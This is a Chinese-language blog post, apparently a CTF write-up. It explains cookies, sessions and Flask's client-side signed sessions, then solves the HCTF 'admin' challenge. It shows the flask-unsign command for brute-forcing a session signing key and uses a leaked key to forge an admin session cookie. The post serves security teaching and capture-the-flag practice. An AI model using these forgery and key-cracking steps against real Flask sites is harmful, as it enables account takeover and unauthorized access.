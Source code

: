 这两天遇到一道挺有意思的题目，是通过伪造session来做的。

要知道什么是session，那么我们首先要知道cookie。

### cookie

http诞生之初只有GET请求，并没有cookie那些。后面随着购物那些网站的兴起，就需要有一个机制来记录用户购物车的信息。这样cookie就诞生了。

> Cookie，有时也用其复数形式 Cookies。类型为“小型文本文件”，是某些网站为了辨别用户身份，进行 Session 跟踪而储存在用户本地终端上的数据（通常经过加密），由用户客户端计算机暂时或永久保存的信息 。

关于cookie的工作机制，我画了一张图来帮助理解。

![image-20210713165602869](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210713165602869.png)

用户将cookie跟请求一起发送给服务器，服务器也会将响应跟cookie一起发给用户，数据少的时候还好。数据一多，cookie就会变得非常庞大，发送请求也会很吃力。况且数据其实在服务端已经有一份了，我们只需要进行认证就行了，这就出现了session。

### session

因为用户信息已经保存在了服务端了，所以我们只需要在cookie里面保存能够识别用户身份的信息就行了，只要知道是谁发起的请求就行了，而不用把所有的数据都存放在cookie当中。这样就大大减少了cookie的体积。这种可以识别请求是谁发送的机制称为session(会话机制)，生成的可以识别用户身份信息的称为sessionid。工作机制如下。

![image-20210713215031270](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210713215031270.png)

用户在购物网站登录，服务器会生成一个唯一的sessionid绑定用户，然后再将sessionid传递回用户。用户对商品加入购物车的请求的cookie只需要有商品id和sessionid就可以了，服务端会自动进行识别是哪个用户，然后将商品加入用户的购物车。而不是跟之前那样会将购物车当中的所有商品id都存在cookie当中。



由此我们可以知道cookie是存在用户本地的，session是存在服务端的。sessionid需要借助cookie来传递。但是这种情况也有例外的。

### Flask

Flask是一个用python写的轻量级web框架，这个框架有个特点就是session不是存在服务端当中，而是存在客户端当中的。我们通过http的请求头就可以轻松获得session。

但是这也不是可以轻易拿来使用的。框架对session进行了base64编码以及进行了密钥签名。

格式为这个**base64后的源字符串 . 时间戳 . hmac签名信息**

例如

```
eyJfcGVybWFuZW50Ijp0cnVlLCJ1c2VybmFtZSI6InN0NGNrIn0.Xbn4pw.6KQvoMiQZo1Ttjr4dFJ7e0AN45U
```

这个是由{"_permanent":true,"username":"st4ck"}，密钥为admin来生成的

也就是说我们需要有密钥才能够伪造session，只有用户信息的话也是不行的

这里有个对session进行编码和解码的工具

https://github.com/noraj/flask-session-cookie-manager

使用方法：

安装

```
pip3 install flask-unsign
```

爆破

```
flask-unsign --unsign --cookie  "eyJfcGVybWFuZW50Ijp0cnVlLCJ1c2VybmFtZSI6InN0NGNrIn0.Xbn4pw.6KQvoMiQZo1Ttjr4dFJ7e0AN45U"
```

![image-20210713224214063](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210713224214063.png)

可以看到成功把密钥爆破了出来

### Hctf-admin

随便注册一个账户登录发现有源码泄露

![image-20210713230309308](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210713230309308.png)

发现这是一个flask的框架，session是存储在本地的。而且里面也提示说不是admin，那么登录admin应该就可以获取flag了。利用伪造session来登录，需要得到一个密钥才能够伪造

在http头处的cookie获得session

```
eJw9kEGLwjAUhP_K8s4eatqT4KFSWxReQiSaTS7Sdatpaiy0im3E_77RBa_z8WbezAP2x67qDcyu3a2awL7-hdkDvn5gBpRsB-p4jD43SPJGeRUruYq02zi06aiLoEtFlD3FLEsTJnKj_OJMBb9Tm1ss1IDFzlB7GFhmalpsE8x4pO2u0SL4yNWo_CtDjYrwSIl0pGQ1MGFqbReWiXSKBfda8IRmZ0PF2im3q4MWs3AbNIviEIcP5vCcwKHvjvtr21SXT4VXHJPolVx6-ooioY7EBAm_o2_umGnHsoVjchlRuQ61Akvnb7valafq41R-b2R1-ieX0gUAXdteYQK3vures8E0gucffIJsAw.YO2nMg._UhP0Bcon1YSGs89pfiqDANNs18
```

解码后

```
{"_fresh":true,"_id":{" b":"N2UxNmQ3MzFhM2FkYzY3YWI0ZmRmMjAyZGFhMWY2Yjg3ODA4OTFhYzBlNTQwNjFjMGYxMGVhNjcxODhiNGU4MDQ0ZjVkZTI0ZWIyYzUxNmYyY2Q0YTAyN2IxOThiZjBjOTA1MGQzZTQ4NDlhNTJmYmViMGQ3OWIyNDljMTc3Y2Y="},"csrf_token":{" b":"MDQ0OWMzYWEzNzUxN2Q3MWM4M2QwMzkwMDZmODBmOWE0NWJmMjM4MA=="},"image":{" b":"aXRWeg=="},"name":"root","user_id":"10"}
```

![image-20210713225506498](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210713225506498.png)

利用工具爆破key，爆破不出来，那么key应该是给出的了

在app下的config.py处发现key为“ckj123”

![image-20210713231538690](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210713231538690.png)

自己构造一个session

```
{'_fresh': True, '_id': b'7e16d731a3adc67ab4fdf202daa1f6b8780891ac0e54061c0f10ea67188b4e8044f5de24eb2c516f2cd4a027b198bf0c9050d3e4849a52fbeb0d79b249c177cf', 'csrf_token': b'0449c3aa37517d71c83d039006f80f9a45bf2380', 'image': b'MAuE', 'name': 'admin', 'user_id': '10'}
```

![image-20210713234643429](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210713234643429.png)

![image-20210713234728359](https://lamcheukwing.oss-cn-shenzhen.aliyuncs.com/img/image-20210713234728359.png)

成功登录获得flag

